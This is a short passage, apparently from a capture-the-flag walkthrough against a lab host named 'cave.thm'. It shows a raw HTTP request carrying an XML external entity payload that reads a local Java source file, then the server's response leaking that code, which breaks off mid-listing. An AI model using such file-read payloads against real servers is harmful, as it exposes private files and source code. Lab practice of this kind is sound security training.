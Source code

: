 
<img width="1022" height="537" alt="image" src="https://github.com/user-attachments/assets/3735eaf8-60ef-4d45-8b5a-de8630758a7f" />





POST /action.php HTTP/1.1
Host: cave.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: http://cave.thm
Connection: close
Referer: http://cave.thm/

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:////home/cave/src/RPG.java'>]><root>&test;</root>




HTTP/1.1 200 OK
Date: Thu, 25 Sep 2025 23:25:52 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 3711
Connection: close
Content-Type: text/html; charset=UTF-8


import java.util.*;
import java.io.*;
import java.io.IOException;
import java.io.InputStream;
import java.net.ServerSocket;
import java.net.Socket;
import java.net.URL;
import java.net.URLConnection;
import org.apache.commons.io.IOUtils;
import java.util.Scanner;
import java.util.logging.Level;
import java.util.logging.Logger;

public class RPG {

    private static final int port = 3333;
    private static Socket connectionSocket;

    private static InputStream is;
    private static OutputStream os;

    private static Scanner scanner;
    private static PrintWriter serverPrintOut;
    public static void main(String[] args) {
        try ( ServerSocket serverSocket = new ServerSocket(port)) {
            while (true) {
                connectionSocket = serverSocket.accept();
